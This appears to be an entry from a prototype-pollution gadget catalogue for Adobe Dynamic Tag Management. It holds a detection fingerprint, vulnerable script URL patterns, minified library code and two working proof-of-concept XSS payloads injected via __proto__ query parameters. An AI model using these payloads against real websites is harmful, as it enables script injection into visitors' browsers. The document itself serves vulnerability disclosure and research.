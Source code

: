 ## Adobe Dynamic Tag Management

URL: https://docs.adobe.com/content/help/en/dtm/using/c-overview.html

### JS Fingerprint
```
return (typeof _satellite !== 'undefined')
```

### Vulnerable code fragment
```
https://assets.adobedtm.com/[a-f0-9]+/[a-f0-9]+/launch-[a-f0-9]+.min.js
https://assets.adobedtm.com/launch-EN[a-f0-9]+.min.js
```

```js
r.prototype._handleScriptToken = function u(e) {
    var t = this, n = this.parser.clear();
    n && this.writeQueue.unshift(n),
    e.src = e.attrs.src || e.attrs.SRC,
...

a.prototype._writeScriptToken = function f(e, n) {
    var t = this._buildScript(e)
    , a = this._shouldRelease(t)
    , i = this.options.afterAsync;
    e.src && (t.src = e.src,
```

### PoC

#### PoC #1
```
?__proto__[src]=data:,alert(1)//
```

```html
<script>
  Object.prototype.src='data:,alert(1)//'
</script>
<script src="https://assets.adobedtm.com/launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js" async></script>
```


#### PoC #1
```
?__proto__[SRC]=<img/src/onerror%3dalert(1)>
```

```html
<script>
  Object.prototype.SRC='<img/src/onerror=alert(1)>'
</script>
<script src="https://assets.adobedtm.com/launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js" async></script>
```